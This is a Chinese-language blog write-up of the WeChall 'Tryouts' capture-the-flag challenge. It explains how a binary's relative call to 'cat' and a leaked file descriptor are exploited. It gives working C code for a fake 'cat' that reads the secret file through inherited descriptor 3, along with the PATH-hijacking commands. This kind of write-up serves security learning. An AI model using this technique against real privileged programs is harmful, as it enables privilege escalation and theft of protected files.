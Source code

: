 ```yaml
---
title: Tryouts
author: rk700
layout: post
categories:
  - writeup
tags:
  - wechall
  - exploit
---
```

<http://www.wechall.net/challenge/warchall/tryouts/index.php>  
用IDA反汇编，基本上了解了题意。最初的想法比较直接：从随机数下手。但根据后来在网上搜到的情况，`/dev/urandom`虽然不是那么随机，但熵基本上还是足够的

仔细阅读反汇编得到的C代码，发现了以下不自然的地方：

{% highlight c %}
snprintf((char *)&v16, 0x200u, "cat %s/seed > /dev/urandom", v20->pw_dir);
{% endhighlight %}
    
这里直接用`cat`而没用绝对路径，也就是说我们可以在家目录下创建一个新的可执行文件，名字也叫`cat`，然后将`$HOME`放在`$PATH`的最前面，那么这个`cat`就会被执行

另外，solution.txt的file descriptor到了最后的最后才关闭，甚至在`/dev/urandom`后，这点太不自然了，按说读完了solution.txt就已经完全不需要这个描述符了

于是查资料，子进程是可以继承父进程的文件描述符（其实以前好像见过类似的题目）：
    
> The child inherits copies of the parent&#8217;s set of open file descriptors. Each file descriptor in the child refers to the same open file description (see open(2)) as the corresponding file descriptor in the parent. This means that the two descriptors share open file status flags, current file offset, and signal-driven I/O attributes (see the description of F\_SETOWN and F\_SETSIG in fcntl(2)). 
    
> By default, file descriptors remain open across an execve(). File descriptors that are marked close-on-exec are closed; see the description of FD_CLOEXEC in fcntl(2). 
    
rsolution.txt的描述符应该是3，因为0，1，2已经被占用。于是我们写cat.c，lseek到文件开始处，再读16个字符
    
{% highlight c %}
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char *argv[]) {
    FILE *fp = fopen(argv[1], "w");
    char buf[16];
    memset(buf, 0, sizeof buf);
    lseek(3, 0, SEEK_SET);
    read(3, buf, sizeof buf);
    fprintf(fp, "%s", buf);
    return 0;
}
{% endhighlight %}
    
将其编译  
`$ gcc -m32 cat.c -o cat`  
然后设置路径  
`$ export PATH=$HOME:$PATH`  
这样就会把solution.txt的内容写到文件seed里面了